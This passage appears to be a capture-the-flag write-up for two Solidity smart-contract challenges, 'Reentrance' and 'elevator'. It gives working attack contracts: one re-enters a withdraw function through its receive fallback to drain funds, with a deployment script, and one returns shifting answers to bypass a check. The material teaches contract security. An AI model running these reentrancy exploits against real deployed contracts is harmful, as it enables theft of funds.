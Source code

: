 As the name states this is a simple reentrancy problem. 

[What is a Reentrancy Attack by Certik](https://www.certik.com/resources/blog/3K7ZUAKpOr1GW75J2i0VHh-what-is-a-reentracy-attack)

In this challenge, `(bool result,) = msg.sender.call{value:_amount}("");` allows the receiver to reenter using receive fallback. As you can see the balances are updated after the call, we can trigger the withdraw again

```solidity
contract ReentranceHack {
    address public instanceAddress;
    constructor(address instance) {
        instanceAddress = instance;
    }
    function withdraw() public {
        IReentrance(instanceAddress).withdraw(0.0005 ether);
    }
    receive() external payable {
        IReentrance(instanceAddress).withdraw(0.0005 ether);
    }
}
```

```javascript
tx = await reentrance.donate(reentranceHack.address, {value: hre.ethers.utils.parseEther("0.0005")})
await tx.wait();

tx = await reentranceHack.withdraw();
await tx.wait();

console.log(await ethers.provider.getBalance(reentrance.address));
```

---

## elevator

The goal is to reach the top, i.e. boolean value for `top` should be true. The only public function is `goTo`. The challenge also has an interface for Building. We need to deploy a Building contract which satisfies the conditions in the goTo and make us reach at the top. 

There are 2 calls to building contract and an interesting thing to notice is that the call `isLastFloor` is a non-view call, meaning we change the state inside the Building contract between the two subsequent calls. This makes our life easy

```solidity
contract BuildingHack is Building {
    bool step = false;
    function isLastFloor(uint) external returns (bool) {
        bool prevStep = step;
        step = !prevStep;
        return prevStep;
    }

    function goTo(address elevatorAddress) public {
        Elevator elevator = Elevator(elevatorAddress);
        elevator.goTo(0);
    }
}
```
